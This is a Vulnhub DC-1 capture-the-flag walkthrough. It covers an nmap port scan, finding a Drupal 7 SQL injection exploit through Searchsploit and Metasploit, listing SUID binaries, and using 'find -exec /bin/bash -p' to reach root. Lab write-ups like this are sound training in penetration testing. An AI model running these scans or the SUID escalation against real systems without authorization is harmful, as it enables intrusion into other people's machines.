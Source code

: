 ```yaml
---
layout: single
title: "Vulnhub DC-1 Walkthrough"
date: 2023-10-18
author_profile: true
comments: true
share: true
categories:
  - DC-Series
tags: []
header:
  overlay_image: /assets/images/dc-1/cover.png
  overlay_filter: 0.3  # optional, darkens the image for readability
  caption: "DC-1 Vulnhub Walkthrough"
excerpt: "Step-by-step walkthrough of the DC-1 machine from Vulnhub."
feature_row:
  - image_path: /assets/images/dc-1/cover.png
    alt: "DC-1 Cover"
    title: "DC-1 Walkthrough"
    excerpt: "A practical guide to rooting the DC-1 Vulnhub machine."
    url: "#"
    btn_label: "Read More"
    btn_class: "btn--primary"
toc: true
toc_sticky: true
---
```





This box is relatively straightforward; there are publicly available exploits that make it even easier. To gain an initial foothold, all we need to do is identify the service and its version. Once we have this information, a quick search on Google or in the Searchsploit database provides us with a suitable exploit. The Metasploit framework offers a good exploit in many cases, which I utilized.

For privilege escalation, we need to locate SUID binaries and abuse them. In this instance, there were two such binaries: 'exim4' and 'find.' The techniques and tactics for this type of privilege escalation are also publicly available.

# Information Gathering

First, I want to start with Nmap to identify the open ports and their associated services. If possible, Nmap will also provide information about the service versions and the operating system. This is a good starting point when working with any assets.

```bash
ports=$(nmap -p- --min-rate=1000 -T4 $IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) ; nmap -p$ports -sC -sV -oN nmap/service_scan $IP

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4d659e6774c227a961660678b42488f (DSA)
|   2048 1182fe534edc5b327f446482757dd0a0 (RSA)
|_  256 3daa985c87afea84b823688db9055fd8 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
|_http-title: Welcome to Drupal Site | Drupal Site
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          39675/tcp   status
|   100024  1          42139/tcp6  status
|   100024  1          47521/udp6  status
|_  100024  1          50689/udp   status
39675/tcp open  status  1 (RPC #100024)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the Nmap results, various services confirmed that it's a Debian-based Linux machine. Only a few minimal ports are open, with the most promising one being port 80. Port 22 is also open, but I currently lack the credentials to attempt an SSH attack. Therefore, I will begin my investigation by focusing on the web server running on port 80. 

# Manual Inspection
![](/assets/images/dc-1/manual-inspection.png)

This site is built with the Drupal content management system, and our Nmap scan confirmed that it's running Drupal version 7. Rather than wasting time, I decided to search for publicly available exploits for Drupal 7. Using Searchsploit, I found a Metasploit exploit.

![](/assets/images/dc-1/searchsploit.png)

Let's proceed to Metasploit and check for exploits. While searching in Metasploit, I discovered a SQL injection vulnerability. Let's start by attempting this one first.

![](/assets/images/dc-1/msf-search.png)

# Initial Foothold

![](/assets/images/dc-1/Initial-foothold.png)

This application is vulnerable to a SQL injection vulnerability, which allowed me to gain a remote shell on the machine. I've obtained the initial foothold, and now it's time to proceed with privilege escalation to gain root privileges.

# Post Enumeration

After obtaining the initial foothold, I conducted a thorough examination of the file system permissions, looking for misconfiguration, extra privilege files, and possible stored passwords. During this process, I checked for SUID files and identified two potential privilege escalation vectors: 'find' and 'exim4.' Both of these files have SUID permissions, making it relatively easy to abuse this type of permission for privilege escalation

```bash
Command: find / -perm -u=s -type f 2>/dev/null

Response: 

/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
```

# Privilege Escalation

First, I would like to attempt privilege escalation using the 'find' command. There is a payload available in GTFOBins for this purpose.

```bash
bash-4.2$ find . -exec /bin/bash -p \; -quit
find . -exec /bin/bash -p \; -quit
bash-4.2# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
```

It worked, and I've achieved root access. It shows that my user is still 'www-data', but my EUID is 0 (root), and my groups are 0 (root). This means I have all the permissions of the root user.

![](/assets/images/dc-1/root.png)


#h@ppyh@cking